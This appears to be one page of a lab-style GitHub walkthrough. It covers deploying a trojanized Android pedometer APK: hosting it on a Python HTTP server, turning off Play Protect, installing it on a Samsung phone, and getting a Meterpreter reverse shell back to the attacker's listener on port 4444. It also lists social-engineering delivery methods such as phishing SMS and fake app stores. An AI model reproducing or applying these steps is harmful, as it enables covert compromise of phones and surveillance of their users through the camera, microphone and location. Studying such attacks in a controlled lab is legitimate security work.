



# Deployment

This phase covers hosting the trojanized APK and installing it on the target Android device.

## Phase 1: Hosting the APK

### Python HTTP Server

Set up a simple web server to host the malicious APK:

cd ~/Desktop/apk_injection
python3 -m http.server 8080

**Server details:**
- **IP:** 172.27.33.114
- **Port:** 8080
- **URL:** http://172.27.33.114:8080/

### Why HTTP Server?

**Advantages:**
- Quick deployment without external services
- Full control over hosting environment
- Logs download activity in terminal
- No third-party file upload sites

**Real-world alternatives:**
- Phishing websites
- Cloud storage (Dropbox, Google Drive)
- Malicious ads with direct download links

## Phase 2: Target Device Configuration

### Enabling Unknown Sources

On Samsung M32 (Android 13):

**Settings → Security → Unknown Sources → Enable for Browser**

Modern Android versions require per-app permission for sideloading.

### Disabling Play Protect (Test Environment Only)

**Settings → Google → Security → Google Play Protect → Disable**

**⚠️ Important:** Only disable on test devices. Production devices should keep this enabled.

## Phase 3: APK Installation

### Download Process

**On target device:**
1. Open Chrome browser
2. Navigate to: `http://172.27.33.114:8080`
3. Click on `final-signed.apk`
4. Download completes

**Kali terminal shows:**
172.27.33.171 - - [27/Dec/2025 23:45:12] "GET /final-signed.apk HTTP/1.1" 200 -

### Installation

**Steps on phone:**
1. Notification: "Download complete"
2. Tap on downloaded APK
3. Android prompts: "Do you want to install this app?"
4. Click "Install"
5. Installation completes

### Permission Grant

On first launch, Android requests permissions:

**Permissions displayed:**
- Camera
- Location
- Storage
- Microphone

User must accept for full payload functionality.

### App Execution

The trojanized pedometer app launches normally:

**User perspective:**
- App displays step counter interface
- Functions as expected (legitimate features work)
- No visible indication of backdoor

**Background activity:**
- Meterpreter payload starts silently
- Connects to 172.27.33.114:4444
- Awaits commands from attacker

## Social Engineering Context

### Why Users Install

In real-world scenarios:
- **Fake app stores** - Malicious APKs disguised as popular apps
- **Phishing SMS** - Links claiming to be bank apps, delivery tracking
- **Watering hole attacks** - Compromised websites offering "security updates"
- **Physical access** - Attacker installs directly on unlocked device

### Trust Indicators Exploited

- Familiar app name (Pedometer)
- Reasonable permissions (fitness apps need sensors)
- Functional UI (user sees working app)
- No immediate suspicious behavior

## Network Traffic Analysis

### Payload Communication

During installation and launch:

**Kali listener (next phase):**
[*] Meterpreter session 1 opened (172.27.33.114:4444 -> 172.27.33.171:xxxxx)

Connection established from phone to Kali.

## Deployment Validation

**Checklist before exploitation:**
- [x] APK downloaded successfully
- [x] Installation completed without errors
- [x] App launches and displays UI
- [x] Permissions granted by user
- [x] Network connection from phone to Kali established

---

**Next Step:** [07-exploitation](../07-exploitation/)

